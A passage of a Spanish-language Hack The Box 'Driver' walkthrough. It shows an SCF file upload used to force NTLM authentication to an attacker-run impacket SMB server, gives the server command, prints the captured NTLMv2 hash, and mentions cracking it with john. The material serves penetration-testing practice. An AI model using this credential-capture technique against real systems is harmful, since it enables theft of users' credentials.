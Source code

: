 Nos viene a la mente generar un archivo `SCF - Shell Command Files` los cuales pueden ser usados para realizar una serie de operaciones tales como mostrar el escritorio de Windows o abrir el explorador de Windows. Sin embargo un archivo SCF puede ser usado para acceder a una determinada ruta que permite al pentester generar un ataque. una búsqueda en Google y encontramos el siguiente recurso de [PentestLab](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

<img src="/assets/HTB/Driver/payload.png">

Creamos el archivo malicioso `file.scf` en nuestro directorio de trabajo `content` y con la herramienta `impacket-smbserver` compartimos recurso a nivel de red. En la web seleccionamos el archivo creado y ejecutamos pulsando `upload`. Observamos en la respuesta que hemos capturado un hash NTLMv2

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

.
.
.
tony::DRIVER:aaaaaaaaaaaaaaaa:79449101964ddc557dc8859e604fde18:010100000000000080b050a50e0ed901e552be6bca7aca7f00000000010010004900700063005400630071006f007800030010004900700063005400630071006f0078000200100058007600760052007100450054006a000400100058007600760052007100450054006a000700080080b050a50e0ed901060004000200000008003000300000000000000000000000002000005c6fbac9ffa8d8933ede104cad3057c5aa8d5ea14155c21f0e4459f30074ce840a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0033003400000000000000000000000000
.
.
.
```

Nos copiamos el hash en un archivo el cual trataremos de crackear mediante la herramienta `john`
